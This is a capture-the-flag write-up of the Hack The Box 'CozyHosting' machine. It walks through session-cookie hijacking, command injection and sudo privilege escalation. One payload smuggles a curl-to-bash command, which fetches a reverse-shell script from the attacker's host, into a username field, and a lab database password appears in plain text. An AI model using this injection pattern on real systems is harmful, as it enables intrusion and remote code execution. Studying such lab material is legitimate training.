 ```yaml
---
layout: post
title: "CozyHosting"
description: "CozyHosting is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap:
![Pasted image 20240715100803.png](/images/Pasted image 20240715100803.png){: .normal }


## Shell access

Add the `cozyhosting.htb` domain to the hosts file.
![Pasted image 20240715100809.png](/images/Pasted image 20240715100809.png){: .normal width="500" }


### Enumerating port 80
Default/standard credentials don't seem to work on the login page.
![Pasted image 20240715100757.png](/images/Pasted image 20240715100757.png){: .normal width="450" }

Directory busting using Dirsearch:
![Pasted image 20240715100753.png](/images/Pasted image 20240715100753.png){: .normal }

The `/actuator/sessions` seems interesting, visiting it results in a bunch of cookies being exposed, these could be used to try and login to the application if they are still valid.
![Pasted image 20240715100749.png](/images/Pasted image 20240715100749.png){: .normal width="450" }

The first cookie that belongs to the kanderson user was used to authenticate.
![Pasted image 20240715100743.png](/images/Pasted image 20240715100743.png){: .normal }


On the admin page we get a hint about SSH keys, the payload can be inspected in Burp.
![Pasted image 20240715100739.png](/images/Pasted image 20240715100739.png){: .normal }


After trying out a few things I found out that leaving the username blank returned some sort of man page. This means we could possibly get RCE.
![Pasted image 20240715100736.png](/images/Pasted image 20240715100736.png){: .normal }

Since we arent allowed to use whitespaces in the username section we’ll have to be creative with the payload:
```bash
# payload: 
host=127.0.0.1&username=";$(curl${IFS}10.10.14.153:8000/payload.sh|bash)"
```
![Pasted image 20240715100727.png](/images/Pasted image 20240715100727.png){: .normal }


On our machine we created a reverse shell bash script that we execute using curl.
![Pasted image 20240715100718.png](/images/Pasted image 20240715100718.png){: .normal width="450" }


The script can be accessed because we are running a Python server in the directory of the script.
![Pasted image 20240715100713.png](/images/Pasted image 20240715100713.png){: .normal }


Shell as the app user:
![Pasted image 20240715100706.png](/images/Pasted image 20240715100706.png){: .normal }



## Lateral movement
Transfer the jar file that is located in the app directory:
![Pasted image 20240715100701.png](/images/Pasted image 20240715100701.png){: .normal }
![Pasted image 20240715100657.png](/images/Pasted image 20240715100657.png){: .normal width="250" }

In the jar file credentials were identified: `postgres:Vg&nvzAQ7XxR`.
![Pasted image 20240715100650.png](/images/Pasted image 20240715100650.png){: .normal }

The previous credentials were used to authenticate to the postgres database. Inside of this database, we find the following credentials:
![Pasted image 20240715100646.png](/images/Pasted image 20240715100646.png){: .normal }

The admin password hash can be cracked using JohnTheRipper.
![Pasted image 20240715100641.png](/images/Pasted image 20240715100641.png){: .normal }

In `/etc/passwd` we can only find the Josh user.
![Pasted image 20240715100637.png](/images/Pasted image 20240715100637.png){: .normal }


SSH as the Josh user:
![Pasted image 20240715100632.png](/images/Pasted image 20240715100632.png){: .normal }


## Priv Esc
Sudo -l output.
![Pasted image 20240715100630.png](/images/Pasted image 20240715100630.png){: .normal }


GTFObins can be used to elevate to root using SSH:
![Pasted image 20240715100626.png](/images/Pasted image 20240715100626.png){: .normal width="650" }


## User.txt
![Pasted image 20240715100621.png](/images/Pasted image 20240715100621.png){: .normal width="400" }

## Root.txt
![Pasted image 20240715100615.png](/images/Pasted image 20240715100615.png){: .normal width="400" }


## Pwned
![Pasted image 20240715100608.png](/images/Pasted image 20240715100608.png){: .normal }


### Sources:
- [RCE without spaces](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces)
- [Send files via NC](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)
- [Priv Esc](https://gtfobins.github.io/gtfobins/ssh/#sudo)